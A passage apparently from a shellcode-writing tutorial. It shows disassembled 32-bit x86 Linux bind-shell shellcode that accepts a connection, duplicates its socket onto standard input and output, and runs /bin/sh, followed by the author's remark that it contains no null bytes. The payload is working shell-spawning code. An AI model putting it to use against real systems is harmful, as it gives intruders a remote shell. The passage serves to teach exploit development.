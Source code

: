 ```  
8048097: b3 04 mov $0x4,%bl  
8048099: 89 e1 mov %esp,%ecx  
804809b: cd 80 int $0x80  
804809d: 31 c0 xor %eax,%eax  
804809f: 31 db xor %ebx,%ebx  
80480a1: 50 push %eax  
80480a2: 50 push %eax  
80480a3: 52 push %edx  
80480a4: b0 66 mov $0x66,%al  
80480a6: b3 05 mov $0x5,%bl  
80480a8: cd 80 int $0x80  
80480aa: 89 c2 mov %eax,%edx  
80480ac: 31 c0 xor %eax,%eax  
80480ae: 31 c9 xor %ecx,%ecx  
80480b0: b0 3f mov $0x3f,%al  
80480b2: 89 d3 mov %edx,%ebx  
80480b4: 41 inc %ecx  
80480b5: cd 80 int $0x80  
80480b7: 31 c0 xor %eax,%eax  
80480b9: b0 3f mov $0x3f,%al  
80480bb: 89 d3 mov %edx,%ebx  
80480bd: 31 c9 xor %ecx,%ecx  
80480bf: cd 80 int $0x80  
80480c1: 31 c0 xor %eax,%eax  
80480c3: b0 0b mov $0xb,%al  
80480c5: 31 db xor %ebx,%ebx  
80480c7: 53 push %ebx  
80480c8: 68 6e 2f 73 68 push $0x68732f6e  
80480cd: 68 2f 2f 62 69 push $0x69622f2f  
80480d2: 89 e3 mov %esp,%ebx  
80480d4: 31 c9 xor %ecx,%ecx  
80480d6: 31 d2 xor %edx,%edx  
80480d8: cd 80 int $0x80  
```  
  
As we can see our shellcode is completely free of null-bytes!
